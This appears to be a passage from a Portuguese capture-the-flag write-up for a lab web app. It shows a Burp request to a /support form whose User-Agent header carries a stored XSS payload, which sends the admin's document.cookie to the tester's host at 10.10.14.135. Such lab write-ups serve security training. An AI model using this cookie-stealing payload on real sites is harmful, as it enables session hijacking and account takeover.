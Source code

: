![alt text](/assets/img/headless/2.png)

Usando o payload `<img src=x onerror=fetch('http://10.10.14.135:80/'+document.cookie);>` no burp consegui pegar o cookie do admin, mas antes setei o web server python.

### Burp

```text
POST /support HTTP/1.1
Host: 10.129.133.211:5000
Content-Length: 71
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.129.133.211:5000
Content-Type: application/x-www-form-urlencoded
User-Agent: <img src=x onerror=fetch('http://10.10.14.135:80/'+document.cookie);>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.129.133.211:5000
Accept-Encoding: gzip, deflate, br
Accept-Language: pt-BR,pt;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

fname=dan&lname=dan&email=dan%40dan.dan&phone=551115987789&message=xxxx
```
{: .nolineno }  
